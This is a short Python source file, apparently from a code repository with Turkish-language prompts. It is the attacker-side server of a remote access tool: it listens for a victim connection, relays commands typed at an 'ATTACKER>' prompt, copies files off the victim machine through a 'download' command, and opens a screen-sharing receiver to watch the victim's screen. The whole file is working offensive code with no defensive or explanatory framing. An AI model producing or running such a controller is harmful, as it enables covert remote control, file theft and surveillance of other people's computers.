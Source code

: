 import socket

port=int(input("lütfen bağlanmka istedğiinz port:"))
baglantı=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
baglantı.bind(("0.0.0.0",port))
print("sunucu dinleniyor........")
baglantı.listen(1)
conn,addr=baglantı.accept()
print(conn,addr)

while True:
    emir=input("ATTACKER>")

    if emir.startswith("download"):
        try:
            conn.settimeout(3.5)

            downloadfile=emir.split()[1]
            conn.send(emir.encode("utf-8"))
            with open(downloadfile,"wb")as file:
                while True:
                    data=conn.recv(16384)
                    if not data:
                        file.close()
                        break                

                    file.write(data)
        except socket.timeout:
            print("dosya indirildi")
            continue
        except Exception as e:
            print(e)
    if emir=="screenshare":
        try: 
            from vidstream import StreamingServer
            screen=StreamingServer("0.0.0.0",9090) 
            screen.start_server()
        except Exception as e:
            print()        


    conn.send(emir.encode("utf-8"))
    response=conn.recv(16384).decode("utf-8")
    print(response)
